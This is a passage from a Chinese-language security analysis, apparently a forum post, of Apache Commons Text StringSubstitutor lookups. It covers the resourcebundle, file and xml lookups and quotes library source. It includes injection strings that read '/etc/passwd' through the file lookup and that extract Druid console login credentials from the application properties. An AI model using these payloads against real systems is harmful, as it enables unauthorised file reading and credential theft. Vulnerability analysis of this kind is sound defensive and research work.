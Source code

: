  同理，跟PropertiesStringLookup的例子一样，如果项目使用了druid console台，但是通过配置`spring.datasource.druid.stat-view-servlet.login-username`进行了权限控制，那么可以考虑通过该lookup来获取对应的敏感信息(可以无需知道properties的路径)：

```Java
StringSubstitutor stringSubstitutor = StringSubstitutor.createInterpolator();
String value = stringSubstitutor.replace("${resourcebundle:application:spring.datasource.druid.stat-view-servlet.login-username}");
```

4.5 FileStringLookup
--------------------

```Java
${file:charsetName:fileName}
```

 通过 `:` 拆分 key ，分配赋值给charsetName和fileName,然后调用Files.readAllBytes()方法进行文件读取:

```Java
    if (key == null) {
        return null;
    } else {
        String[] keys = key.split(String.valueOf(':'));
        int keyLen = keys.length;
        if (keyLen < 2) {
            throw IllegalArgumentExceptions.format("Bad file key format [%s], expected format is CharsetName:DocumentPath.", new Object[]{key});
        } else {
            String charsetName = keys[0];
            String fileName = StringUtils.substringAfter(key, 58);

            try {
                return new String(Files.readAllBytes(Paths.get(fileName)), charsetName);
            } catch (Exception var7) {
                throw IllegalArgumentExceptions.format(var7, "Error looking up file [%s] with charset [%s].", new Object[]{fileName, charsetName});
            }
        }
    }
}
```

具体效果:

```Java
StringSubstitutor stringSubstitutor = StringSubstitutor.createInterpolator();
String value = stringSubstitutor.replace("${file:utf-8:/etc/passwd}");
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-99700076168e6ce26ad392612127b8c0f3f2d8cc.png)

4.6 XmlStringLookup
-------------------

通过`:`切割，前面的部分赋值给documentPath，第二部分赋值给 xpath：

```Java
String documentPath = keys[0];
String xpath = StringUtils.substringAfter(key, 58);
```
